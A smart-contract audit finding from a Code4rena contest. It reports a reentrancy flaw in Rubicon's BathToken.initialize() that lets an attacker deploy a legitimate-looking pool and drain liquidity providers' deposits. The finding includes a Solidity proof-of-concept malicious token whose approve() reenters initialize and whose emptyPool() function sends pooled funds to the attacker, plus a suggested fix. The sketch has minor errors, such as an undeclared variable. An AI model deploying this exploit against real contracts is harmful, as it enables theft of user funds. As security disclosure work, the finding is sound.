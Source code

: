 ## Tags

- bug
- 2 (Med Risk)
- sponsor confirmed

# [Malicious pools can be deployed through `BathHouse`](https://github.com/code-423n4/2022-05-rubicon-findings/issues/326) 

# Lines of code

https://github.com/code-423n4/2022-05-rubicon/blob/8c312a63a91193c6a192a9aab44ff980fbfd7741/contracts/rubiconPools/BathHouse.sol#L153
https://github.com/code-423n4/2022-05-rubicon/blob/8c312a63a91193c6a192a9aab44ff980fbfd7741/contracts/rubiconPools/BathToken.sol#L214


# Vulnerability details

## Title
Malicious pools can be deployed through `BathHouse`

## Impact
Reentrancy in `BathToken.initialize()` can be exploited and this allows to create a pool which has a legitimate underlying token (even one for which a pool already exists), and has given full approval of underlying Token to an attacker. While this underlying token will differ from the one returned by  `BathHouse.getBathTokenfromAsset` for that Pool (since the returned token would be the malicious one which reentered `initialize`), the LPs could still deposit actual legitimate tokens to the pool since it is deployed from the BathHouse and has the same name as a legit pool, and loose their deposit to the attacker.

## Proof of Concept
Create a new pool calling `BathHouse.openBathTokenSpawnAndSignal()` and passing as `newBathTokenUnderlying` the address with the following malicious token:

```solidity
// SPDX-License-Identifier: BUSL-1.1

pragma solidity =0.7.6;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import "@openzeppelin/contracts/access/Ownable.sol";
import "../../contracts/rubiconPools/BathToken.sol";

contract fakeToken is ERC20("trueToken", "TRUE"), Ownable {

    ERC20 trueToken;
    address marketAddress;
    uint256 counterApprove;
    BathToken bathToken;

    function setTrueToken(address _trueTokenAddress) onlyOwner {
        trueToken = ERC20(_trueTokenAddress);
    }

    function setMarketAddress(address _marketAddress) onlyOwner {
        marketAddress = _marketAddress;
    }

    function approve(address spender, uint256 amount) public virtual override returns (bool) {
        if (counterApprove == 1) { //first approve is from bathHouse
            bathToken = BathToken(msg.sender);
            bathToken.initialize(trueToken, owner, owner);
            attacked = false;
        }
        counterApprove++;
        _approve(_msgSender(), spender, amount);
        return true;
    }

    function setAndApproveMarket(address _market){
        // sets legitimate market after malicious bathToken initialization
        bathToken.setMarket(_market);
        bathToken.approveMarket();
    }

    function emptyPool() onlyOwner {
        // sends pool tokens to attacker
        uint256 poolBalance = trueToken.balanceOf(address(bathToken));
        trueToken.transferFrom(address(bathToken), owner, poolBalance);
    }
}
```

This reenters `BathToken.initialize()` and reassigns the bathHouse role to the fake token, which names itself as the legit token. Also the reentrant call reassigns the legit Token to `underlyingToken` so thet the pool actually contains the legit token, but gives infinite approval for the legit token from the pool to the attacker, who is passed as `market` in the reentrant call.

Since the fakeToken has the bathHouse role, it can set the market to the actual RubiconMarket after the reentrant call.

Code: [BathHouse.openBathTokenSpawnAndSignal](https://github.com/code-423n4/2022-05-rubicon/blob/8c312a63a91193c6a192a9aab44ff980fbfd7741/contracts/rubiconPools/BathHouse.sol#L153), [BathToken.initialize](https://github.com/code-423n4/2022-05-rubicon/blob/8c312a63a91193c6a192a9aab44ff980fbfd7741/contracts/rubiconPools/BathToken.sol#L214)

## Tools Used
Manual analysis

## Recommended Mitigation Steps
Add `onlyBathHouse` modifier to `initialize` function in `BathToken` to avoid reentrancy from malicious tokens.


